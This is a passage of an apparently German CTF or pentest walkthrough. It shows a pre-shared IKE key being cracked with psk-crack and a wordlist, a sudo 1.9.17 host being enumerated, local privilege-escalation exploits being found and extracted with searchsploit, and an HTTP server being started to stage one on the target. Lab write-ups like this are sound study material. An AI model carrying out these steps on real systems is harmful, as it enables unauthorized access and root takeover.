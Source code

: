 ```bash
# Cracken der extrahierten PSK (Beispiel mit psk-crack aus ike-scan tools)
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```

Beispielergebnis (erfolgreich):
```text
key "freakingrockstarontheroad" matches SHA1 hash ...
```

**Passwort (aus Crack)**: `freakingrockstarontheroad`

---

# sudo-Enumeration & Privilege Escalation (local)

Ziel: prüfen, ob lokale Schwachstellen / Sudo-Bugs zur Root-Escalation führen.

## Sudo Version prüfen

```bash
# lokal auf Zielhost (wenn du als user eingeloggt bist)
sudo -V
```

Beispielauszug:
```text
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
```

## Exploit-Suche (Searchsploit)
Nutze `searchsploit` lokal oder remote, um bekannte Exploits für die gefundene Version zu sehen.

```bash
# Suche nach sudo Exploits auf dem Angreifer-System
searchsploit sudo
```

Relevante Treffer z. B.:
```
Sudo 1.9.17 Host Option - Elevation of Privilege   | linux/local/52354.txt
Sudo chroot 1.9.17 - Local Privilege Escalation   | linux/local/52352.txt
```

### Ablauf — Exploit extrahieren, uploaden, ausführen (Beispielablauf)
1. Exploit extrahieren:
```bash
searchsploit -m 52352
cp 52352.txt exploit.sh
```

2. HTTP-Server zum einfachen Transfer starten:
```bash
# im Verzeichnis mit exploit.sh
python -m http.server 8000
```
